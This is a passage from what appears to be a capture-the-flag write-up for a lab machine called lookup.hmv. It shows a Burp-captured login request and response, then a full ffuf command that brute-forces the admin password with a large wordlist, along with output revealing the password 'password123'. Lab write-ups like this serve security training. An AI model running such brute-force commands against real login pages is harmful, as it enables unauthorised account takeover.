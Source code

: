 </❌ Failed Step.>

`firefox` > `http://lookup.hmv/`

`burpsuite`

`HTTP Request`:
```http
POST /login.php HTTP/1.1
Host: lookup.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://lookup.hmv
Connection: close
Referer: http://lookup.hmv/
Cookie: login_status=success
Upgrade-Insecure-Requests: 1

username=admin&password=TEST123 ←
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Mon, 07 Oct 2024 18:06:42 GMT
Server: Apache/2.4.41 (Ubuntu)
Refresh: 3; url=http://lookup.hmv
Content-Length: 62 ←
Connection: close
Content-Type: text/html; charset=UTF-8

Wrong password. Please try again.<br>Redirecting in 3 seconds. ←
```

`ffuf -u "http://lookup.hmv/login.php" -d "username=admin&password=PASSWORD" -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords.txt:PASSWORD -H "Content-Type: application/x-www-form-urlencoded" -fr "Wrong password." -c -ic -t 30`:
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.hmv/login.php
 :: Wordlist         : PASSWORD: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=PASSWORD
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 30
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Wrong password.
________________________________________________

password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 2ms] ←
```